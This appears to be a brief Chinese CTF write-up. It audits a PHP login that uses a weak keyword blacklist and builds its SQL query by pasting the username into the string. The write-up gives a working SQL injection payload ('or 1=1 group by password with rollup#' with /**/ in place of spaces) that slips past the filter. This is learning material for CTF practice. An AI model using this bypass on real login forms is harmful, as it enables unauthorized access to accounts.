

玩玩web

===


```php

<?php
		$flag="";
        function replaceSpecialChar($strParam){
             $regex = "/(select|from|where|join|sleep|and|\s|union|,)/i";
             return preg_replace($regex,"",$strParam);
        }
        if (!$con)
        {
            die('Could not connect: ' . mysqli_error());
        }
		if(strlen($username)!=strlen(replaceSpecialChar($username))){
			die("sql inject error");
		}
		if(strlen($password)!=strlen(replaceSpecialChar($password))){
			die("sql inject error");
		}
		$sql="select * from user where username = '$username'";
		$result=mysqli_query($con,$sql);
			if(mysqli_num_rows($result)>0){
					while($row=mysqli_fetch_assoc($result)){
						if($password==$row['password']){
							echo "登陆成功<br>";
							echo $flag;
						}

					 }
			}
    ?>

```
## 代码审计

1. 行内注释

2. 虚拟表链接 密码为空


```python
user_name = """'username=' or 1=1 group by password with rollup#"""
password = """&password="""

parm = user_name + password
new_str = parm.replace(" ", "/**/")
print(new_str)

```
## BurpSuite  

